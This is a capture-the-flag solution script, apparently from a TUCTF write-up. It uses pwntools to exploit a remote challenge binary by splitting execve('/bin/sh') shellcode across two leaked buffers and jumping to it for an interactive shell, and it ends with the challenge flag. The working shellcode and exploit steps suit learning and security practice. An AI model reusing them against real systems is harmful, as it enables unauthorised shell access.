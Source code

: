 Solved by Dan
#!/usr/bin/env python3.7
import pwn

# reverse the binary with r2, it's pretty simple
#  0x12 byte heap buffer, input copied into it
#  0x10 byte stack buffer, input copied into it
#  address of two buffers is printed
#  input copied into pointer
#  call pointer
#
# also NX is off

# just did pwn.shellcraft.sh() for my shellcode
# split it into two chunks, one fore 0x12 byte
# buffer and one for 0x10. Added a jmp eax
# between the two

# {} will be the address of buf_two once we
# know where it is
SHELLCODE_ONE = r'''
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    mov eax, {}
    jmp eax
'''

SHELLCODE_TWO = r'''
    push 0x6e69622f

    /* call execve('esp', 0, 0) */
    push (SYS_execve) /* 0xb */
    pop eax
    mov ebx, esp
    xor ecx, ecx
    cdq /* edx=0 */
    int 0x80
'''

pwn.context(os='linux', arch='x86')
# pwn.shellcraft.sh()
r = pwn.remote('chal.tuctf.com', 30504)
r.recvline()
r.recvline()

# address of buf one
buffer_one = int(r.recvline()[2:], 16)
buffer_one_size = 0x12

# address of buf two
buffer_two = int(r.recvline()[2:], 16)
buffer_two_size = 0x10

# format shellcode w/ buff two address
shellcode_one = pwn.asm(SHELLCODE_ONE.format(hex(buffer_two)))
shellcode_two = pwn.asm(SHELLCODE_TWO)

# send the shellcode in two parts, padded to full size of buffers with 'a'
r.send(shellcode_one + b'a' * (buffer_one_size - len(shellcode_one)))
r.send(shellcode_two + b'a' * (buffer_two_size - len(shellcode_two)))

# send the address of buf one
r.send(pwn.p32(buffer_one))

# cat flag*
r.interactive()

TUCTF{4nd_4_0n3,_4nd_4_7w0,_4nd_5h3ll_f0r_y0u!}

